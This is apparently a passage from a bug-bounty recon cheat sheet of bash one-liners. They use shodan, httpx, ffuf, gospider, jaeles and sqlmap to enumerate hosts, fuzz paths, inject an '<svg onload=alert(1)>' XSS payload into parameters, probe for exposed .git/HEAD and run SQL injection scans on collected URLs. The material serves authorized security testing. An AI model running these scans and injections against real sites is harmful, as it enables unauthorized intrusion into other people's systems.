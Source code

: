 ```bash
domain="domaintotest";shodan domain $domain | awk -v domain="$domain" '{print $1"."domain}'| httpx -threads 300 | anew shodanHostsUp | xargs -I@ -P3 sh -c 'jaeles -c 300 scan -s jaeles-signatures/ -u @'| anew JaelesShodanHosts 
```

###  Search to files using assetfinder and ffuf

- [Explained command]

```bash
assetfinder att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```

###  HTTPX using new mode location and injection XSS using qsreplace.

- [Explained command]

```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo '(http|https)://[^/"].*' | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>" "'
```

###  Grap internal juicy paths and do requests to them.

- [Explained command]

```bash
export domain="https://target";gospider -s $domain -d 3 -c 300 | awk '/linkfinder/{print $NF}' | grep -v "http" | grep -v "http" | unfurl paths | anew | xargs -I@ -P50 sh -c 'echo $domain@ | httpx -silent -content-length'
```

###  Download to list bounty targets We inject using the sed .git/HEAD command at the end of each url.

- [Explained command]

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

###  Using to findomain to SQLINJECTION.

- [Explained command]

```bash
findomain -t testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

###  Jaeles scan to bugbounty targets.
